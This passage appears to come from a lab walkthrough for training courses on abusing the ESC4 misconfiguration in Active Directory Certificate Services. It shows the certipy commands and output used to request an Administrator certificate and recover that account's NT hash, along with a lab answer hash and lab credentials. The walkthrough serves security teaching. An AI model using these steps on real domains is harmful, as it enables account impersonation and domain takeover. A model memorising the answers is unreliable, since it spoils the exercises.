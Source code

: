 Answer: `b4d7acc4ed8077f60a163499df9bc779`

## ESC4

### Question 3

#### "Abuse the ESC4 misconfiguration to impersonate the Administrator account. What is the value of the flag file at C:\Users\molly\Desktop\flag.txt?"

From the first question, students have abused the `ESC4` to render the `ESC4` template vulnerable to `ESC1`, therefore, to abuse it and impersonate `Administrator`, students need to use the `req` command of `certipy`, specifying the template `ESC4` for the `-template` option and the `UPN` `Administrator` for the `-upn` option; students will attain a `PFX` certificate for the `Administrator` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Administrator
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template ESC4 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 70
[*] Got certificate with UPN 'Administrator@lab.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Administrator` and `Un-PAC-the-hash` within it; students will attain the NT hash `2b576acbe6bcfda7294d6bd18041b8fe`:

Code: shell

```shell
certipy auth -pfx administrator.pfx 
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy auth -pfx administrator.pfx 

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```
